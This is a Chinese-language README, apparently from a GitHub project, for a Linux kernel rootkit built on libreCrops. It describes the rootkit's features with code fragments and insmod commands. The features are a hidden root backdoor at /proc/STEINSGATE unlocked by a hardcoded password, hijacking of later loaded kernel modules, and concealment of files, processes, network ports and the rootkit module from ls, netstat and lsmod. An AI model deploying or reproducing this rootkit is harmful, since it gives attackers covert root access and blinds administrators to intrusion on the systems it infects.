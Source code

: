 ## 开发者：
Eidos

## 参考资料：
libreCrops所提全部功能相关的内容

是一个整合体（缝合怪）。

## 运行环境：
尚没有测试过全部版本，开发时采用的环境为`Ubuntu20.04 + Linux kernel 5.4.81`。但根据5.x中较小的代码变动以及该项目尚未使用`kall_sysm_table`进行函数挂钩，应该适用于大部分5.x版本内核。

## 功能简介
### 后门设置：
```C
// 提权所需口令
#define PASSWORD "ELPSYKONGROO"
#define BACKDOOR "STEINSGATE" // 后门需要藏好
#define BACKDOOR_PATH "/proc" // 因此需要特地先藏好这个文件路径
```
本Rootkit设置了提权选项，其所在路径为`/proc/STEINSGATE`，在输入"ELPSYKONGROO"给/proc/STEINSGATE文件时，将会提权为Root。

该后门采用了进程隐藏的方式藏匿起来，无法通过`ls /proc`寻找到。

对应模块文件：`backdoor.c`
### 阻止后续插入模块正常运转：
```C
switch (module->state) {
    case MODULE_STATE_COMING:
        printk(KERN_INFO "Replacing init and exit functions: %s.\n", module->name);
        module->init = fake_init;
        module->exit = fake_exit;
        break;
    default:
        break;
}
```
利用`notifier_block`的链式通知机制，以及利用`data`段存放`module`的做法实现了以下功能：当之后有新的模块嵌入时，其无法正常运转其功能，而是执行`fake_init`和`fake_exit`这些由我们的模块设置好的自定义功能。

经过测试可以支持多个模块的阻止功能。

对应模块文件`fake.c`
### 文件隐藏：
```C
char* hide_path = "default";
char* file_name = "default";
module_param(hide_path, charp, 0000);
MODULE_PARM_DESC(hide_path, "the path of dirent for file hide.");
module_param(file_name, charp, 0000);
MODULE_PARM_DESC(file_name, "the file name to hide.");
```
文件隐藏功能，在默认的情况下不打开：我们通过设置`hide_path`和`file_name`为"default"作为默认值，并判断模块插入后这两个参数的赋值情况来确定是否执行文件隐藏。具体来说如下所示：
```C
if (strcmp("default", hide_path) == 0) {
    return;
}
                
printk(KERN_INFO "Opening the path: %s.\n", hide_path);          
filp = filp_open(hide_path, O_RDONLY, 0);                

if (filp == NULL) return;        
```
其原理为当前文件夹下的`iterate`函数挂钩修改，在此不赘述。

如果我们需要隐藏根目录下的文件"alien"，模块的使用方法为：
```shell
$ sudo insmod hide.ko hide_path="/" file_name="alien"
```
再次在根目录下使用`ls`命令，能够观测到`alien`文件的消失。

对应模块文件`filehide.c`

### 进程隐藏：
进程隐藏与文件隐藏原理保持一致，只是锁定了先前提及的hide_path为常量：
```C
#define PROC_HIDE_PATH "/proc"
```
特别的，由于我们之前设置的后门亦在该文件夹下，需特地把后门隐藏好再说。
```C
module_param(secret_proc, long, S_IRUSR);
MODULE_PARM_DESC(secret_proc, "the secret process number.");
```
若想隐藏进程号为1234的进程，使用方法：
```shell
$ sudo insmod hide.ko secret_proc=1234
```

该过程会让其在文件夹`/proc`下不可见。

对应模块文件：`prochide.c`

### 端口隐藏：
```C
int tcp4 = INT_MAX;
int tcp6 = INT_MAX;
int udp4 = INT_MAX;
int udp6 = INT_MAX;

module_param(tcp4, int, S_IRUSR | S_IWUSR | S_IRGRP);
module_param(tcp6, int, S_IRUSR | S_IWUSR | S_IRGRP);
module_param(udp4, int, S_IRUSR | S_IWUSR | S_IRGRP);
module_param(udp6, int, S_IRUSR | S_IWUSR | S_IRGRP);

MODULE_PARM_DESC(tcp4, "tcp4 port.");
MODULE_PARM_DESC(tcp6, "tcp6 port.");
MODULE_PARM_DESC(udp4, "udp4 port.");
MODULE_PARM_DESC(udp6, "udp6 port.");
```
端口文件提供了四个可由命令行传递的参数，以模块隐藏TCP4端口为33，TCP6端口为34，UDP4端口为123，UDP6端口为124为例，使用的方法为：
```shell
$ sudo insmod hide.ko tcp4=33 tcp6=34 udp4=123 udp6=124
```

端口隐藏涉及了`seq_file`类型的文件操作函数`show`，通过挂载该函数可以实现端口的隐藏，通过阅读源码可知，四种类型均存放输出信息于`seq_file`数据结构的`buf`载荷之中，以`count`作为当前`buf`长度，在我们使用`netstat`或者`cat /proc/net/tcp`最后以`write`方式输出在终端上。以TCP4隐藏端口为例。
```C
last_count = seq->count;
snprintf(needle, NEEDLE_LEN, ":%04X", tcp4);
ret = real_seq_show_tcp4(seq, v);
last_size = seq->count - last_count;

if (strnstr(seq->buf + seq->count - last_size, needle, last_size)) {
    printk(KERN_INFO "Hiding port %d using needle %s.\n", tcp4, needle);
    seq->count -= last_size; 
}
```
本质上他修正`count`载荷大小为读入该端口信息前的长度，如果我们隐藏的信息是最后一个，那么因为长度不够而干脆不打印。如果我们隐藏的端口信息不是最后一个，那么之后的端口信息将会覆盖之，从而实现隐藏。

对应的模块文件为`protocolhide.c`

### 模块隐藏：
综合使用了用于`seq_file`的隐藏方式和文件隐藏方式，使得模块`hide`的存在信息不可见于`cat /sys/module`和`lsmod`命令。

对应的模块文件为`modhide.c`

## 源码阅读：
参考`libreCrops`文件夹中的wiki。